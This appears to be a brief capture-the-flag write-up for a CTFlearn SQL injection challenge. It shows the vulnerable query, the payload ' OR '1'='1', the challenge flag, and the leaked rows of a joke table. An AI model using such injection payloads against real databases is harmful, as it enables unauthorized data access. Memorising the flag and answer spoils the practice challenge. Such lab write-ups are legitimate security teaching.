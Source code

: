# Basic-Injection
Question

See if you can leak the whole database using what you know about SQL Injections. 

link

You know what to do
Input: ...
 
Original Query: SELECT * FROM webfour.webfour where name = '$input'

Your Resulting Query: SELECT * FROM webfour.webfour where name = ''

0 results

Answer: ' OR '1'='1' | Flag: CTFlearn{th4t_is_why_you_n33d_to_sanitiz3_inputs}

Execution
Name: Luke
Data: I made this problem.
Name: Alec
Data: Steam boys.
Name: Jalen
Data: Pump that iron fool.
Name: Eric
Data: I make cars.
Name: Sam
Data: Thinks he knows SQL.
Name: fl4g__giv3r
Data: CTFlearn{th4t_is_why_you_n33d_to_sanitiz3_inputs}
Name: snoutpop
Data: jowls
Name: Chunbucket
Data: @datboiiii
